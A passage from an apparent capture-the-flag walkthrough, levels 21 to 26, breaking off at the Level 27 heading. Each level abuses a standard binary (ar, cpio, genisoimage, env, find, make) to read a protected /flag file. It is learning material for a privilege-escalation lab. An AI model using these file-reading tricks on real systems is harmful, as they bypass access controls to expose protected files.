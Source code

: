 ## Level 21

Steps:

```bash
ar r archive.a /flag
ar p archive.a
```

## Level 22

Steps:

```bash
echo /flag | cpio -o > archive.cpio
cpio -i --to-stdout < archive.cpio
```

## Level 23

Steps:

```bash
genisoimage -sort /flag
```

## Level 24

Steps:

```bash
env -i /bin/cat /flag
```

## Level 25

Steps:

```bash
find / -maxdepth 1 -type f -name flag -exec /bin/cat {} \;
```

## Level 26

Steps:

Create `Makefile` file containing

```make
main:
    cat /flag
```

Then run the file with `make` in the same directory

## Level 27
